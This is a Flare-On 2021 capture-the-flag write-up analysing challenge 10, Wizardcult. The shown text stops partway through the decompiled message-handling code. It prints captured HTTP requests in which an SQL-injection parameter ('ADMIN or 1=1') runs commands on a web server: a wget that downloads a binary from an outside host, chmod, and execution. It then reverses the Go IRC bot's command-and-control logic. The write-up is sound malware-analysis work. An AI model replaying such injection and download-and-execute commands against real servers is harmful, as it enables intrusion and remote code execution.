

## Flare-On 2021 - #10 Wizardcult
___

### Description: 

*We have one final task for you. We captured some traffic of a malicious cyber-space computer hacker interacting with our web server. Honestly, I padded my resume a bunch to get this job and don't even know what a pcap file does, maybe you can figure out what's going on.*

`7-zip password: flare`

___

### Solution:

We load the `wizardcult.pcap` file in wireshark and we extract the HTTP traffic,
the [induct.elf](./induct.elf) and the IRC messages:
```
GET /router/admin.php?auth=ADMIN%20or%201=1&cmd=id HTTP/1.1
Host: 172.16.30.245
User-Agent: curl/7.47.0
Accept: */*

HTTP/1.1 200 OK
Date: Tue, 13 Jul 2021 19:29:39 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 66
Content-Type: text/html; charset=UTF-8


<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

<!-------------------- NEXT HTTP PACKET -------------------->
GET /router/admin.php?auth=ADMIN%20or%201=1&cmd=wget%20-O%20%2Fmages_tower%2Finduct%20http%3A%2F%2Fwizardcult.flare-on.com%2Finduct HTTP/1.1
Host: 172.16.30.245
User-Agent: curl/7.47.0
Accept: */*

HTTP/1.1 200 OK
Date: Tue, 13 Jul 2021 19:29:41 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 12
Content-Type: text/html; charset=UTF-8


<pre></pre>

<!-------------------- NEXT HTTP PACKET -------------------->
GET /induct HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: wizardcult.flare-on.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Date: Tue, 13 Jul 2021 19:29:41 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Tue, 13 Jul 2021 18:26:56 GMT
ETag: "756965-5c70561f94076"
Accept-Ranges: bytes
Content-Length: 7694693
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

.ELF..............>.......F.....@.......p...........@.8.
[..... ELF CONTENTS TRUNCATED FOR BREVITY .....]

<!-------------------- NEXT HTTP PACKET -------------------->
GET /router/admin.php?auth=ADMIN%20or%201=1&cmd=chmod%20%2Bx%20%2Fmages_tower%2Finduct HTTP/1.1
Host: 172.16.30.245
User-Agent: curl/7.47.0
Accept: */*

HTTP/1.1 200 OK
Date: Tue, 13 Jul 2021 19:29:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 12
Content-Type: text/html; charset=UTF-8


<pre></pre>

<!-------------------- NEXT HTTP PACKET -------------------->
GET /router/admin.php?auth=ADMIN%20or%201=1&cmd=%2Fmages_tower%2Finduct HTTP/1.1
Host: 172.16.30.245
User-Agent: curl/7.47.0
Accept: */*

HTTP/1.1 200 OK
Date: Tue, 13 Jul 2021 19:29:48 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 12
Content-Type: text/html; charset=UTF-8


<pre></pre>
```

The client exploits an SQL injection to execute the following commands one the server:
```
/router/admin.php?auth=ADMIN or 1=1&cmd=id
/router/admin.php?auth=ADMIN or 1=1&cmd=wget -O /mages_tower/induct http://wizardcult.flare-on.com/induct 
/router/admin.php?auth=ADMIN or 1=1&cmd=chmod +x /mages_tower/induct
/router/admin.php?auth=ADMIN or 1=1&cmd=/mages_tower/induct
```

The [induct](./induct) binary generates a large volume of IRC traffic:



```
CAP LS 302
NICK Izahl
:irc.local NOTICE Auth :*** Looking up your hostname...
USER user * * :Example bot
:irc.local NOTICE Auth :*** Could not resolve your hostname: Request timed out; using your IP address (172.16.30.245) instead.
:irc.local NOTICE Auth :Welcome to .Localnet.!
:irc.local 001 Izahl :Welcome to the Localnet IRC Network Izahl!user@172.16.30.245
:irc.local 002 Izahl :Your host is irc.local, running version InspIRCd-2.0
:irc.local 003 Izahl :This server was created on Debian
:irc.local 004 Izahl irc.local InspIRCd-2.0 iosw biklmnopstv bklov
:irc.local 005 Izahl AWAYLEN=200 CASEMAPPING=rfc1459 CHANMODES=b,k,l,imnpst CHANNELLEN=64 CHANTYPES=# CHARSET=ascii ELIST=MU FNC KICKLEN=255 MAP MAXBANS=60 MAXCHANNELS=20 MAXPARA=32 :are supported by this server
:irc.local 005 Izahl MAXTARGETS=20 MODES=20 NETWORK=Localnet NICKLEN=32 PREFIX=(ov)@+ STATUSMSG=@+ TOPICLEN=307 VBANLIST WALLCHOPS WALLVOICES :are supported by this server
:irc.local 042 Izahl 811AAAAAC :your unique ID
:irc.local 375 Izahl :irc.local message of the day
:irc.local 372 Izahl :- Welcome to the Wizard Cult
:irc.local 372 Izahl :- 
:irc.local 372 Izahl :- Rules:
:irc.local 372 Izahl :- 
:irc.local 372 Izahl :- 1. Always be casting
:irc.local 372 Izahl :- 
:irc.local 372 Izahl :- 2. No martial classes
:irc.local 372 Izahl :- 
:irc.local 372 Izahl :- 3. Don't polymorph the DM
:irc.local 372 Izahl :- 
:irc.local 372 Izahl :- 4. No bards
:irc.local 376 Izahl :End of message of the day.
:irc.local 251 Izahl :There are 3 users and 0 invisible on 1 servers
:irc.local 254 Izahl 1 :channels formed
:irc.local 255 Izahl :I have 3 clients and 0 servers
:irc.local 265 Izahl :Current Local Users: 3  Max: 3
:irc.local 266 Izahl :Current Global Users: 3  Max: 3
JOIN #dungeon
:Izahl!user@172.16.30.245 JOIN :#dungeon
:irc.local 353 Izahl = #dungeon :@ImpartialObserver dung3onm4st3r13 Izahl 
:irc.local 366 Izahl #dungeon :End of /NAMES list.
WHO #dungeon %tacuhnr,1
MODE #dungeon
:irc.local 352 Izahl #dungeon chris 127.0.0.1 irc.local ImpartialObserver H@ :0 chris
:irc.local 352 Izahl #dungeon user 127.0.0.1 irc.local dung3onm4st3r13 H :0 Example bot
:irc.local 352 Izahl #dungeon user 172.16.30.245 irc.local Izahl H :0 Example bot
:irc.local 315 Izahl #dungeon :End of /WHO list.
:irc.local 324 Izahl #dungeon +nt
:irc.local 329 Izahl #dungeon 1626204558
PRIVMSG #dungeon :Hello, I am Izahl, a 5 level Sorceror. I come from the land of Dewsbury-Hankala-Beckinsdale-Oldham.
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, what is your quest?
PRIVMSG #dungeon :My quest is to retrieve the Big Pterodactyl Fossil
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, welcome to the party.
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, you have learned how to create the Potion of Acid Resistance. To brew it you must combine magnifying glass, kernels of grain, silver spoon, fish tail, undead eyeball, undead eyeball, coal, ash, silver rod, gold-inlaid vial, rose petals, silver rod, honeycomb, phosphorus, undead eyeball, kernels of grain, tarts, bone, undead eyeball, coal, undead eyeball, tentacle of giant octopus or giant s
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :quid, glass sliver, honeycomb, rose petals, pearl, snaketongue, undead eyeball, adamantine, bone, undead eyeball, tentacle of giant octopus or giant squid, focus, polished marble stone, gum arabic, an item distasteful to the target, mistletoe sprig, undead eyeball, kernels of grain, reed, bone, undead eyeball, ice, crystal bead, an item distasteful to the target, mistletoe sprig, gum arabic, an it
[..... TRUNCATED FOR BREVITY .....]
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :ball, shamrock, undead eyeball, ruby vial, undead eyeball, earth, bone, undead eyeball, spider, undead eyeball, food morsel, fish tail, ice, bone, bone, fish tail, fish tail, fish tail, adamantine, bone, undead eyeball, adamantine, undead eyeball, spider, undead eyeball, spider, bone, undead eyeball, adamantine, undead eyeball, adamantine, undead eyeball, ice, bone, and bone.
PRIVMSG #dungeon :I have now learned to brew the Potion of Acid Resistance
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, you enter the dungeon Graf's Infernal Disco. It is frightening, virtual, danish, flimsy, gruesome great, dark oppressive, bad, average, virtual, last, more strange, inhospitable, slimy, average, and few dismal..
PRIVMSG #dungeon :I draw my sword and walk forward into Graf's Infernal Disco carefully, my eyes looking for traps and my ears listening for enemies.
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, you encounter a Goblin in the distance. It stares at you imposingly. The beast smells quite foul. What do you do?
PRIVMSG #dungeon :I quaff my potion and attack!
PRIVMSG #dungeon :I cast Moonbeam on the Goblin for 205d205 damage!
PRIVMSG #dungeon :I cast Reverse Gravity on the Goblin for 253d213 damage!
PRIVMSG #dungeon :I cast Water Walk on the Goblin for 216d195 damage!
PRIVMSG #dungeon :I cast Mass Suggestion on the Goblin for 198d253 damage!
PRIVMSG #dungeon :I cast Planar Ally on the Goblin for 199d207 damage!
PRIVMSG #dungeon :I cast Water Breathing on the Goblin for 140d210 damage!
PRIVMSG #dungeon :I cast Conjure Barrage on the Goblin for 197d168 damage!
PRIVMSG #dungeon :I cast Water Walk on the Goblin for 204d198 damage!
PRIVMSG #dungeon :I cast Call Lightning on the Goblin for 193d214 damage!
PRIVMSG #dungeon :I cast Branding Smite on the Goblin!
PRIVMSG #dungeon :I do believe I have slain the Goblin
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, you have learned how to create the Potion of Water Breathing. To brew it you must combine magnifying glass, kernels of grain, silver spoon, fish tail, undead eyeball, undead eyeball, coal, ash, silver rod, gold-inlaid vial, rose petals, silver rod, honeycomb, phosphorus, undead eyeball, kernels of grain, tarts, bone, undead eyeball, coal, undead eyeball, tentacle of giant octopus or giant s
[..... TRUNCATED FOR BREVITY .....]
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :all, giant slug bile, undead eyeball, ice, undead eyeball, rotten egg, bone, undead eyeball, rotten egg, undead eyeball, spider, undead eyeball, talcum powder, bone, undead eyeball, rotten egg, undead eyeball, adamantine, undead eyeball, talcum powder, undead eyeball, spider, bone, undead eyeball, artistic representation of caster, undead eyeball, spider, undead eyeball, licorice root shaving, bon
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :e, undead eyeball, artistic representation of caster, undead eyeball, adamantine, undead eyeball, licorice root shaving, undead eyeball, spider, bone, and bone.
PRIVMSG #dungeon :I have now learned to brew the Potion of Water Breathing
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, you enter the dungeon The Sunken Crypt. It is flimsy, gruesome great, dark oppressive, bad, average, virtual, last, more strange, inhospitable, slimy, average, few dismal, flimsy, dark and gruesome, inhospitable, inhospitable, frightening, last, slimy, nicest, solid, dark oppressive, few dismal, deep subterranean, last, gruesome great, average, gruesome great, average, cruel, damned, common
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :, and bad..
PRIVMSG #dungeon :I draw my sword and walk forward into The Sunken Crypt carefully, my eyes looking for traps and my ears listening for enemies.
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Izahl, you encounter a Wyvern in the distance. It stares at you imposingly. The beast sits in the water, waiting for you to approach it. What do you do?
PRIVMSG #dungeon :I quaff my potion and attack!
PRIVMSG #dungeon :I cast Stinking Cloud on the Wyvern for 116d157 damage!
PRIVMSG #dungeon :I cast Dominate Person on the Wyvern for 155d165 damage!
PRIVMSG #dungeon :I cast Animate Objects on the Wyvern for 44d248 damage!
PRIVMSG #dungeon :I cast Spider Climb on the Wyvern for 197d69 damage!
PRIVMSG #dungeon :I cast Wind Walk on the Wyvern for 234d253 damage!
PRIVMSG #dungeon :I cast Searing Smite on the Wyvern for 93d13 damage!
PRIVMSG #dungeon :I cast Chain Lightning on the Wyvern for 203d64 damage!
PRIVMSG #dungeon :I cast Animate Dead on the Wyvern for 37d213 damage!
PRIVMSG #dungeon :I cast Guards and Wards on the Wyvern for 135d197 damage!
PRIVMSG #dungeon :I cast Flesh to Stone on the Wyvern for 40d154 damage!
PRIVMSG #dungeon :I cast Forcecage on the Wyvern for 45d82 damage!
PRIVMSG #dungeon :I cast Spider Climb on the Wyvern for 197d211 damage!
PRIVMSG #dungeon :I cast Prayer of Healing on the Wyvern for 128d233 damage!
[..... TRUNCATED FOR BREVITY .....]
PRIVMSG #dungeon :I cast Seeming on the Wyvern for 189d71 damage!
PRIVMSG #dungeon :I cast Fireball on the Wyvern for 31d36 damage!
PRIVMSG #dungeon :I cast Guards and Wards on the Wyvern for 138d40 damage!
PRIVMSG #dungeon :I cast Purify Food and Drink on the Wyvern for 174d166 damage!
PRIVMSG #dungeon :I cast Spirit Guardians on the Wyvern for 211d207 damage!
PRIVMSG #dungeon :I cast Witch Bolt on the Wyvern for 72d59 damage!
PRIVMSG #dungeon :I cast Blur on the Wyvern for 61d198 damage!
PRIVMSG #dungeon :I cast Project Image on the Wyvern for 17d168 damage!
PRIVMSG #dungeon :I cast Goodberry on the Wyvern for 6d166 damage!
PRIVMSG #dungeon :I cast Animate Dead on the Wyvern for 133d234 damage!
PRIVMSG #dungeon :I cast Feather Fall on the Wyvern for 210d35 damage!
PRIVMSG #dungeon :I cast Conjure Elemental on the Wyvern for 79d42 damage!
PRIVMSG #dungeon :I cast Wind Wall on the Wyvern for 180d147 damage!
PRIVMSG #dungeon :I do believe I have slain the Wyvern
PING 1626204628723262207
PING 1626204648719606788
:irc.local PONG irc.local :1626204628723262207
:irc.local PONG irc.local :1626204648719606788
:dung3onm4st3r13!user@127.0.0.1 PRIVMSG #dungeon :Rocks fall and Izahl dies.
```

### Reversing the Binary

The [induct](./induct) binary is an IRC bot written in Go. Reversing Go binaries has some
peculiarities:
  * The return value(s) are pushed on the stack and not on `RAX`
  * The strings are not NULL-terminated. Instead all strings are placed together in a huge
    character array. To pass a string argument to a function, we use **2** parameters:
    a *pointer* to the array and its *size*.

These properties make decompilation problematic, because the decompiler thinks that the return value
is on `RAX`. Therefore we need to rename the return value variables and adjust the strings to get
a meaningful decompiler output.

Since the binary is not stripped, we care mostly about functions that start with `wizardcult_*`.
Let's start from the beginning, which is `main_main` at `6C15E0h` (strings are adjusted):
```c
void __cdecl main_main() {
  time_Now();
  now = retval;
  /* Set random number on *(&v4 + 1) using math_rand___ptr_Rand__Seed and math_rand___ptr_Rand__Intn */

  // wizardcult_tables_Names looks like:
  // .data:0000000000948DC0 off_948DC0 dq offset aAdium ; "Adium"
  // .data:0000000000948DC8     dq 5
  // .data:0000000000948DD0     dq 74E312h              ; Vretorn
  // .data:0000000000948DD8     dq 7
  // .data:0000000000948DE0     dq 74DA02h              ; Ivelin
  // .data:0000000000948DE8     dq 6
  // .data:0000000000948DF0     dq 74DB46h              ; Xukore
  // .data:0000000000948DF8     dq 6
  // .data:0000000000948E00     dq 74D062h              ; Exon
  // .data:0000000000948E08     dq 4
  // ....
  name = wizardcult_tables_Names[2 * *(&v4 + 1)];// Select a random name
  main_MyName_len = wizardcult_tables_Names[2 * *(&v4 + 1) + 1];
  
  if ( runtime_writeBarrier )
    runtime_gcWriteBarrierCX();
  else
    main_MyName = name;

  /*  client := girc.New(girc.Config{
   *    Server: "irc.byteirc.org",
   *    Port:   6667,
   *    Nick:   "test",
   *    User:   "user",
   *    SASL:   &girc.SASLPlain{User: "user1", Pass: "securepass1"},
   *    Out:    os.Stdout
   *  })
   */
  github_com_lrstanley_girc_New("wizardcult.flare-on.com", 0x17, /*port=*/6667,
    /*nick=*/"Arrixyll", 0x8 /*user=*/"user", 0x4, /*name=*/"Example bot", 0xB);

  /*  // sregister is much like Caller.register(), except that it safely locks
   *  // the Caller mutex.
   *  func (c *Caller) sregister(internal, bg bool, cmd string, handler Handler) (cuid string) {}
   */
  github_com_lrstanley_girc___ptr_Caller__sregister(*(_QWORD *)(v43 + 344), 0,
    "CLIENT_CONNECTED", 0x10,
    go_itab_github_com_lrstanley_girc_HandlerFunc_github_com_lrstanley_girc_Handler,
    glo_main_main_func1_ptr);

  github_com_lrstanley_girc___ptr_Caller__sregister(*(_QWORD *)(v43 + 344), 0,
    "PRIVMSG", 0x7,
    go_itab_github_com_lrstanley_girc_HandlerFunc_github_com_lrstanley_girc_Handler,
    glo_main_main_func2_ptr);
}
```

This function, randomly chooses a name from `wizardcult_tables_Names` array and creates a new
IRC server-side client for `wizardcult.flare-on.com`. Then it registers two events:
  * When `CLIENT_CONNECTED` occurs (i.e., a client gets connected) the `glo_main_main_func1_ptr`
    is invoked.
  * When `PRIVMSG` occurs (i.e., a message arrives on a channel) the `glo_main_main_func2_ptr`
    is invoked.

Below are are also some useful articles for 
[Go channels](https://x0r19x91.in/reversing-golang/part-4/)
and
[sregister](https://github.com/lrstanley/girc/blob/2cb73c37725553fc472a3b8050cddc28f2989c4b/handler.go#L311).


When the IRC server-side client gets (successfully) connected to the server, `main_main_func1`
at `6C1929h` is invoked:
```c
void __golang main_main_func1(__int64 a1) {
  str_1.ptr = "#dungeon";
  str_1.len = 8LL;
  github_com_lrstanley_girc___ptr_Commands__Join(*(a1 + 360), &str_1, 1LL);
  map = runtime_makemap_small();                // make(map[k]v)
  if ( runtime_writeBarrier )
    runtime_gcWriteBarrier();
  else
    glo_map_small = map;
  obj1 = runtime_newobject(&qword_732980);
  obj1->potion_namelen = 25LL;
  obj1->potion_name = "Potion of Water Breathing";
  obj1->beast_len = 60LL;
  obj1->beast_str = "The beast sits in the water, waiting for you to approach it.";
  obj1->location_len = 16LL;
  obj1->location = "The Sunken Crypt";
  obj1->func_ptr = &glo_wizardcult_potion_ReadFilePotion_ptr;
  // func mapassign_faststr(t *maptype, h *hmap, s string) unsafe.Pointer {}
  runtime_mapassign_faststr(&glo_maptype, glo_map_small, "Potion of Water Breathing", 25LL, v6);
  if ( runtime_writeBarrier )
    runtime_gcWriteBarrier();
  else
    *retval1 = obj1;

  /* Insert 3 more elements to map:
   *  "Potion of Superior Healing" ~> {"Potion of Superior Healing", 
   *                                   "You are wound",
   *                                   "Burrows of the Brutal Desert";}
   *  "Potion of Watchful Rest" ~> {"Potion of Watchful Rest",
   *                                "The beast sings you a lullaby.",
   *                                "Pits of the Savage Mag";}
   *  "Potion of Acid Resistance" ~> {"Potion of Acid Resistance",
   *                                  "The beast smells quite foul.",
   *                                  "Graf's Infernal Disco",
   *                                  &glo_wizardcult_potion_CommandPotion_ptr}
   */
  main_buildInitialBeacon();
  irc_obj = *(a1 + 360);
  map_1 = v4;
  cmd = runtime_newobject(&unk_731540);
  cmd[6] = 7LL;
  cmd[5] = "PRIVMSG";
  v1 = runtime_newobject(&unk_6EB820);
  v1[1] = 8LL;
  *v1 = "#dungeon";
  v1[3] = v5;
  if ( runtime_writeBarrier )
    v1 = runtime_gcWriteBarrierCX();
  else
    v1[2] = map_1;
  v2 = cmd;
  cmd[8] = 2LL;
  cmd[9] = 2LL;
  if ( runtime_writeBarrier )
    runtime_gcWriteBarrier();
  else
    cmd[7] = v1;

  // cmd.c.Send(&Event{Command: JOIN, Params: []string{buffer}})  
  // PRIVMSG #dungeon :Hello, I am %s, a %v level %s. I come from the land of %s.
  github_com_lrstanley_girc___ptr_Client__Send(*irc_obj, v2);// PRIVMSG
}
```

Function joins channel `#dungeon` and then initializes a hashmap with **4** different potions.
**These elements are used throughout the communication to ensure that a response corresponds to the
right question.** It is also important to observe that **2** potions contain a function pointer:
`glo_wizardcult_potion_ReadFilePotion_ptr` and `glo_wizardcult_potion_CommandPotion_ptr`. These
pointers are used to invoke the actual VM as we will later.
Then it build the initial beacon (`main_buildInitialBeacon`) which is based on OS version and the
IP and sends the following message: `Hello, I am %s, a %v level %s. I come from the land of %s.`:
```c
__int64 __usercall main_buildInitialBeacon@<rax>() {  
  main_getRemoteIp();                           // Fetch your IP from  "http://ip-api.com/json/"
  main_getPlaceFromIp(retval_ip);               // Cast IP into "City1-City2-City3-City4"
  v8 = v3;
  v7 = v4;
  runtime_convTstring(main_MyName, main_MyName_len);
  /*  __int64 __usercall wizardcult_tables_init@<rax>() {
   *    map["darwin"]  = "Rogue"
   *    map["windows"] = "Beserker";
   *    map["linux"]   = "Sorceror";
   *    map["freebsd"] = "Warlock";
   *    map["openbsd"] = "Bard";
   *
   *    wizardcult_tables_OsClasses = map;
   *  }
   */
  v5 = runtime_mapaccess1_faststr(&qword_6F8EC0, wizardcult_tables_OsClasses, "linux", 5LL);
  runtime_convTstring(*v5, v5[1]);
  runtime_convTstring(v8, v7);
  fmt_Sprintf(v0);                              // Hello, I am %s, a %v level %s. I come from the land of %s.
}
```

After that, server-side client waits for a client to send a message.
When this happens `main_main_func2` is invoked:
```c
void __golang main_main_func2(__int64 a1, __int64 *a2_user, int a3_msg, int a4, int a5, int a6,
                              int a7, int a8, __int64 a9, __int64 a10) {
  /* Decls */
  github_com_lrstanley_girc___ptr_Event__IsFromChannel();
  if ( retval ) {
    if ( a2_user ) {
      v10 = *a2_user;
      if ( a2_user[1] == 0xF && *v10 == 'mno3gnud'// dung3onm4st3r13
                             && *(v10 + 8) == '3ts4' && *(v10 + 12) == '1r' && *(v10 + 14) == '3' ) {
        if ( glo_incomplete_msg ) {
          if ( a10 < 1 ) {
            some_str3.ptr = 0LL;
            some_str3.len = 0LL;
          }
          else {
            idx___ = 16 * (a10 - 1);
            some_str3.len = *(a9 + idx___);
            some_str3.ptr = *(a9 + idx___ + 8);
          }

          v42 = some_str3;
          v13 = glo_msg_cnt;
          msg_list_ = glo_msg_list;
          if ( glo_msg_cnt + 1 > glo_new_slice ) { // if needed to expand
            v35 = runtime_growslice(&qword_6E9400, glo_msg_list, glo_msg_cnt, glo_new_slice, glo_msg_cnt + 1);// alloc 1 extra slot
            /* ... */
          }

          glo_msg_cnt = v13 + 1;
          v15 = 16 * v13;
          *(msg_list_ + v15 + 8) = some_str3.ptr;// append
          if ( runtime_writeBarrier )
            runtime_gcWriteBarrierDX(p_a2_user);
          else
            *(msg_list_ + v15) = some_str3.len;

          if ( some_str3.ptr >= 1 ) {
            endswith_dot = runtime_memequal(some_str3.len + some_str3.ptr - 1, ".", 1LL);
            some_str3 = v42;
          }
          else {
            endswith_dot = 0;
          }
          if ( endswith_dot
            || (some_str3.ptr >= 1 ? (endswith_que = runtime_memequal(some_str3.len + some_str3.ptr - 1, "?", 1LL)) : (endswith_que = 0),
                endswith_que) ) {
            strings_Join(glo_msg_list, glo_msg_cnt, glo_new_slice, 0LL, 0LL, v35);// separate with NULLs (maybe?)
            wizardcult_comms_ProcessDMMessage(joined_strs, joined_len, a1, &main_Ctx);
            v34 = runtime_makeslice(&qword_6E9400, 0LL, 100LL);// zero out!
            glo_msg_cnt = 0LL;
            glo_new_slice = 100LL;
            if ( runtime_writeBarrier )
              runtime_gcWriteBarrier();
            else
              glo_msg_list = v34;
            glo_incomplete_msg = 0;
          }
        }
        else {                                  // glo_alternate_flag is 0
          if ( a10 < 1 ) {
            some_str.ptr = 0LL;
            some_str.len = 0LL;
          }
          else {
            idx = 16 * (a10 - 1);
            some_str.len = *(a9 + idx);
            some_str.ptr = *(a9 + idx + 8);
          }
          if ( strings_Index(some_str.len, some_str.ptr, main_MyName, main_MyName_len) >= 0 )// check if your name is mentioned
          {
            if ( a10 < 1 ) {
              some_str1.ptr = 0LL;
              some_str1.len = 0LL;
            }
            else {
              idx_ = 16 * (a10 - 1);
              some_str1.len = *(idx_ + a9);
              some_str1.ptr = *(idx_ + a9 + 8);
            }

            if ( strings_Index(some_str1.len, some_str1.ptr, "Rocks fall", 10LL) >= 0 ) {
              github_com_lrstanley_girc___ptr_Client__Close(a1);
            }
            else {
              if ( a10 < 1 ) {
                some_len2.ptr = 0LL;
                some_len2.len = 0LL;
              }
              else
              {
                idx__ = 16 * (a10 - 1);
                some_len2.len = *(idx__ + a9);
                some_len2.ptr = *(idx__ + a9 + 8);
              }

              /* Check if message ends with '.' or '?' as before */
              if ( endswith_dot_or_que ) {
                // if message ends with '.' or '?' process it
                wizardcult_comms_ProcessDMMessage(some_len2.len, some_len2.ptr, a1, &main_Ctx);
              }
              else
              {
                msg_cnt = glo_msg_cnt;
                msg_list = glo_msg_list;
                if ( glo_new_slice < (glo_msg_cnt + 1) )
                {
                  v37 = runtime_growslice(&qword_6E9400, glo_msg_list, glo_msg_cnt, glo_new_slice, glo_msg_cnt + 1);// alloc 1 extra slot
                  /* ... */
                }

                glo_msg_cnt = msg_cnt + 1;
                v29 = 16 * msg_cnt;
                *(msg_list + v29 + 8) = some_len2.ptr;// append new
                if ( runtime_writeBarrier )
                  runtime_gcWriteBarrierDX(v32);
                else
                  *(msg_list + v29) = some_len2.len;
                glo_incomplete_msg = 1;
              }
            }
          }
        }
      }
    }
  }
}
```

This function checks first that the event is from the current channel (and not from a private
message) and has been sent by `dung3onm4st3r13`. If not it returns. Then checks to see whether the
message ends with a dot `.` or a questionmark `?`. If so it processes the message using
`wizardcult_comms_ProcessDMMessage`. If not, it accumulates all messages until it receives a message
that ends with `.` or `?` and then processes all of them as a single message. Finally, if the 
server-side client receives the `Rocks fall` string in the response, it tears down the connection.
The `wizardcult_comms_ProcessDMMessage` function is where all the magic happens:
```c
void __golang wizardcult_comms_ProcessDMMessage(char *a1_msg, size_t a2_len, __int64 a3, __int64 a4) {
  /* Decls */  
  if ( strings_Index(a1_msg, a2_len, ", what is your quest?", 21LL) >= 0 ) {
    v113 = *(a3 + 360);
    dungeon_endr = runtime_newobject(&qword_731540);
    ptr = dungeon_endr;
    dungeon_endr->vm_obj = 7LL;
    dungeon_endr->ingr_len = "PRIVMSG";
    dungeon_endj = runtime_newobject(&unk_6EB820);
    dungeon_endj[1] = 8LL;
    *dungeon_endj = "#dungeon";
    dungeon_endj[3] = 50LL;
    dungeon_endj[2] = "My quest is to retrieve the Big Pterodactyl Fossil";
    v40 = ptr;
    ptr->beast_len = 2LL;
    *(v40 + 72) = 2LL;
    if ( runtime_writeBarrier )
      runtime_gcWriteBarrier();
    else
      *(v40 + 56) = dungeon_endj;
    github_com_lrstanley_girc___ptr_Client__Send(*v113, v40);
  }

  if ( strings_Index(a1_msg, a2_len, "welcome to the party.", 21LL) < 0 ) {
    can_get_in = a4;
  }
  else {
    can_get_in = a4;
    *a4 = 1;
  }

  if ( *can_get_in ) {
    if ( strings_Index(a1_msg, a2_len, "you have learned how to create the ", 35LL) >= 0 ) {
      potion = strings_Index(a1_msg, a2_len, "Potion of", 9LL);
      end = strings_Index(a1_msg, a2_len, ".", 1LL);
      if ( end > a2_len )
        runtime_panicSliceAlen(v44, dungeon_endf);
      if ( potion > end )
        runtime_panicSliceB();
      dungeon_idxc = end;
      ingr_start = strings_Index(a1_msg, a2_len, "combine ", 8LL);
      v25 = &a1_msg[potion & ((potion - dungeon_idxc) >> 63)];
      if ( ingr_start + 8 > a2_len )
        runtime_panicSliceB();
      dungeon_idxd = dungeon_idxc - potion;
      potion_idx = v25;
      new_str = strings_Replace(
                  &a1_msg[((8 - (a2_len - ingr_start)) >> 63) & (ingr_start + 8)],// original str ~> points to 1st ingredient
                  a2_len - ingr_start - 8,      // original len
                  ".",                          // old str
                  1LL,                          // old len
                  0LL,                          // new str (NULL)
                  0LL,                          // new len
                  -1LL);                        // n = replace all times
      strings_genSplit(new_str, new_len, ", ", 2LL, 0LL, -1LL);// split string on ingredients
      dungeon_found_32 = glo_ingredient_sz;
      wizardcult_tables_GetBytesFromTable(      // NOTE: if ingredient has "and ", split it in 2
        ingr_table,
        new_str,
        new_len,
        wizardcult_tables_Ingredients,
        *(&wizardcult_tables_Ingredients + 1)); // we have 256 ingredients
      v26 = *(a4 + 56);
      ingr_table_1 = ingr_table;
      p_ingredient_bytes = &glo_maptype;
      dungeon_bytes = runtime_mapaccess2_faststr(
                        &glo_maptype,
                        v26,
                        potion_idx,
                        dungeon_idxd,
